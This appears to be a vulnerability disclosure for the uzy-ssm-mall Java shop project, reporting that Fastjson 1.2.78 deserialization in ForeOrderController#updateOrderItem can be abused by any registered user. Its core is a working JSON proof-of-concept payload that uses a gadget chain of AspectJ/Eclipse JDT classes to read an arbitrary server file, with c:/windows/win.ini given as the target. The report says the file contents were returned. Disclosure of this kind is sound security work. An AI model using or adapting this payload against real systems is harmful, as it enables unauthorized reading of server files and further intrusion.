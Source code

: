 # **[uzy-ssm-mall](https://github.com/ghostxbh/uzy-ssm-mall)** has a Fastjson deserialization vulnerability that an attacker can exploit by registering any ordinary user

Fastjson version 1.2.78 has a vulnerability：

![image-20250906155031719](./images/image-20250906155031719.png)

com.uzykj.mall.controller.ForeOrderController#updateOrderItem() directly deserializes the request body：

![image-20250906155042503](./images/image-20250906155042503.png)

Aspectj file reading poc：

```javap
[{
   "@type":"java.lang.Exception",
   "@type":"org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"
},
   {
      "@type":"java.lang.Class",
      "val":{
         "@type":"java.lang.String"{
      "@type":"java.util.Locale",
      "val":{
         "@type":"com.alibaba.fastjson.JSONObject",{
      "@type":"java.lang.String"
      "@type":"org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException",
      "newAnnotationProcessorUnits":[]
   }
}
},
   {
    "@type":"java.lang.Character"
    {
        "c":{
            "@type":"org.eclipse.jdt.internal.compiler.env.ICompilationUnit",
            "@type":"org.eclipse.jdt.internal.compiler.batch.CompilationUnit",
            "fileName":"c:/windows/win.ini"
    }
}]
```

Successfully echoed the file content：

![image-20250906155054847](./images/image-20250906155054847.png)